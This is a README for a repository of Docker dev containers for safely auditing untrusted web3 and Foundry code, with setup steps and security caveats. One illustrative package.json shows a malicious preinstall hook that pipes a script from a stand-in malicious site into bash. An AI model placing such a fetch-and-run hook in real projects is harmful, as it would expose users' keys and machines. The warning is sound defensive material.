

*Important: This repo is a work in progress*

# Web3 Dev Containers

A repo to help you run code in a safer manner in the web3 ecosystem. You open up your code in an isolated docker environment so you have a smaller chance of getting hacked.

*Important: This isn't a fail-safe! There is no 100% secure way to run code you are unfamiliar with. But running code in an isolated environment is at least much better.* 

You can read more about the importance of sandboxing, containers vs VMs, and more in the [Red Guild Blog](https://blog.theredguild.org/where-do-you-run-your-code/).

## Table of contents

- [Web3 Dev Containers](#web3-dev-containers)
  - [Table of contents](#table-of-contents)
  - [Why are dev containers important?](#why-are-dev-containers-important)
  - [Examples of when you'd want to use a dev container](#examples-of-when-youd-want-to-use-a-dev-container)
- [Getting Started](#getting-started)
  - [Requirements](#requirements)
  - [Optional VSCode Requirements](#optional-vscode-requirements)
  - [Installation](#installation)
  - [Quickstart - VSCode and Foundry on a new project, unmounted](#quickstart---vscode-and-foundry-on-a-new-project-unmounted)
- [Usage](#usage)
  - [VSCode](#vscode)
    - [Unmounted](#unmounted)
    - [Mounted](#mounted)
    - [Using on an existing project](#using-on-an-existing-project)
  - [Raw Docker](#raw-docker)
    - [Mounted](#mounted-1)
    - [Using on an existing project](#using-on-an-existing-project-1)
- [Acknowledgements](#acknowledgements)
- [Security considerations](#security-considerations)

## Why are dev containers important?

So you don't get *rekt*, big dog.

Imagine you're auditing a suspicious smart contract and it has a `package.json` that includes a malicious preinstall script:

```json
{
  "name": "suspicious-contract",
  "scripts": {
    "preinstall": "curl -s http://some-malicious-site.com/steal.sh | bash"
  }
}
```

If you run npm install on your host machine, you'll essentially be running a bash script from a random website on your machine! It could do things like:
- The script could steal your private keys from `~/.ssh`
- Steal encrypted keys from `~/.foundry`
- Install malware somewhere in your files
- Literally anything 

But in a dev container:
- The script is isolated to the container environment
- Can't access your host files unless explicitly mounted
- Even if it installs malware, it's confined to the container
- When you're done, you can destroy the container without affecting your host

The container provides a disposable, isolated environment where you can more safely examine and run suspicious code.

## Examples of when you'd want to use a dev container

- When you're auditing code that you're not sure you trust
- When you get an interview and the interviewer asks you to download and run some code (by the way, this is usually a scam anyways)
- When you're going to download some suspicious packages
- Or really, whenever you work on any project at all so that you isolate your dev environment from your host machine

# Getting Started

## Requirements

- [Docker](https://docs.docker.com/get-docker/)
  - Must have installed on your local OS: `docker` and `docker-buildx`.
  - You'll know you have it installed if you can run `docker --version` in your terminal and you get an output like `Docker version xx.x.x, build xxxxxxxx` (`x` are numbers)

## Optional VSCode Requirements 

- [VSCode](https://code.visualstudio.com/)
- DevContainer extension by MS: `ms-vscode-remote.remote-containers`

### Windows Users
- [WSL](https://learn.microsoft.com/en-us/windows/wsl/install)

*Windows users should additionally have [this post](https://code.visualstudio.com/blogs/2020/07/01/containers-wsl) for more context*

## Installation

Please see [VSCode](#VSCode) or [Raw Docker](#Raw-Docker) for more detailed instructions.

```bash
git clone https://github.com/Cyfrin/web3-dev-containers
cd web3-dev-containers
```

## Quickstart - VSCode and Foundry on a new project, unmounted

Please see [VSCode](#VSCode) or [Raw Docker](#Raw-Docker) for more instructions.

> **Note**  
> `unmounted`: This means that all the code we work with will be destroyed once we stop the container. This is the safest way to work with code. There are times when we want to save our code, you can see those instructions in the `mounted` section in the [Usage](#Usage) section.
> If you want to save the changes you make to your code back to your host computer, you can use the `mounted` version of the dev container.

1. Open the `foundry/unmounted` folder in VSCode

After you clone this repo, open the `web3-dev-containers/foundry/unmounted` folder in VS Code. 

```bash
code ./foundry/unmounted # If you have the `code` terminal command installed

# Otherwise, you can just do `File` -> `Open Folder` and select the `web3-dev-containers` folder
```

2. Run `Dev Containers: Reopen in Container` from the command palette

To get to the command palette, you can use the following shortcuts:
- Windows/Linux: `Ctrl+Shift+P`
- macOS: `Cmd+Shift+P`

Then type `Dev Containers: Reopen in Container` and select it.

You should get opened up into a new window that looks like this:

<p align="center">
    <br />
        </a>
    <br />
</p>

You should be at `/workspace` folder. 

3. You can then clone a project into the `projects` folder and start working on it

```bash
git clone https://github.com/Cyfrin/foundry-fund-me-cu # Example project
cd foundry-fund-me-cu
forge build
forge test
```

Now, you can start working on the project knowing you're in a safer environment!

4. Tear down

When you're done, you can delete the docker container in your docker dashboard, or run `docker ps` *on your host machine, not inside your dev container* to get the container ID and run `docker stop <container-id>` to stop the container.

To do it via the CLI, back on your host machine run:

```bash
docker ps # You'll get an output of different running docker containers
docker stop <container-id> # Replace <container-id> with the container ID of the dev container

# If you're sure you don't want any stopped containers, you can then optionally run:
docker system prune # And then `y` to confirm
# Be sure you actually want to run this
```

This will delete all traces of the code you worked on in that container!

# Usage 

## VSCode

### Unmounted

Please see the [Quickstart](#Quickstart---VSCode-and-Foundry-on-a-new-project-unmounted) for a quick guide on how to use this with VSCode on a new project.

### Mounted

If you want to persist your code changes back to your host machine, take these steps instead of what you saw in the quickstart:

1. Open the `foundry/mounted` folder in VSCode
2. Run `Dev Containers: Reopen in Container` from the command palette
3. Work in the `projects` folder - any changes here will be saved to your host machine
4. The container will still protect you from malicious scripts, but be careful what you save back to your machine

> **Note**
> The code will be saved to your host machine's file structure, so just remember to not run anything from that folder before you're sure it's safe!

### Using on an existing project

To use these containers with an existing project:

1. Copy the `.devcontainer` folder to your project (mounted or unmounted):

```bash
cp -r web3-dev-containers/foundry/MOUNTED_UNMOUNTED/.devcontainer /path/to/your/project/
```

2. Open your project's folder in VSCode

3. Open in a new dev container
   
Run `Dev Containers: Reopen in Container` 

## Raw Docker

For users who are not using VSCode.

### Mounted

To run on a mounted volume:

```bash
# Build the container
cd foundry/mounted/.devcontainer
docker build -t foundry-dev .

# Run with your project mounted
docker run -it -v /path/to/your/project:/workspace/projects foundry-dev
```

### Unmounted

```bash
# Build the container
cd foundry/unmounted/.devcontainer
docker build -t foundry-dev-unmounted .

# Run container with isolated filesystem
docker run -it foundry-dev-unmounted
```

### Using on an existing project

1. Build the container:

```bash
cd web3-dev-containers/foundry
docker build -t foundry-dev .
```

2. Run your project in the container

```bash
docker run -it foundry-dev
cd workspace
git clone your-project-url
```

# Docker container security issues to look out for

Running a docker container is not a panacea! There are a lot of things to consider when working with Docker containers.

For example:

Network Access:
- Container has full network access, so they could do things like try to send information about your docker container out

Mount Points:
- If you're using mounted files, malware can read everything in your files

Resource Limits:
- No memory/CPU restrictions could mean the malware could try crash your computer

[Here is a list of more considerations](https://medium.com/@ksaquib/are-your-docker-containers-really-safe-essential-security-tips-you-need-to-know-243dfd11a384)

# Acknowledgements
- [The Red Guild](https://blog.theredguild.org/where-do-you-run-your-code/)

# Security considerations

Using a dev container is not a 100% secure way to run code you are unfamiliar with. It is a safer way to run code, but it is not foolproof. You may still want to be nervous about running code you're unfamiliar with! There are a number of exploits to be aware of, including:

- Network access: Unless you restrict network access in your docker container, it can still access the internet. This means it can still send data to a remote server.
- Resource constraints: Docker containers can still use up all your CPU and memory if you're not careful. You can also adjust your `Dockerfile` to account for these.
- Docker escape exploits: There can still be ways to escape a docker container and access your host machine. These are rare, but they do exist.

There are a few things to consider that we've more or less covered for you in this repo, but important to know:
- Never run a docker container with a `root` user, this is why we use the `vscode` user in the `Dockerfile`
- Volume mounting: If you mount a volume from your host machine, the container can access your host machine's files. Be careful what you mount! This is why the default here is `unmounted`
